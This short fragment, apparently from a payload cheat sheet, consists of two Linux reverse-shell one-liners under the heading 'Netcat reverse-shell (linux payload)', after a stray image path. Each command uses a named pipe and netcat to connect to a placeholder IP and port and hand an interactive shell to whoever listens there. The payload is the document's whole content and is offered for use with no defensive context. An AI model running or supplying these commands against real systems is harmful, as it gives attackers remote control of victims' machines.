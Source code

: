 + **Netcat reverse-shell (linux payload)**:
```
mkfifo /tmp/f; nc <ip> <port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
mkfifo /tmp/f; cat /tmp/f | bash -i | nc <ip> <port> > /tmp/f; rm /tmp/f
```

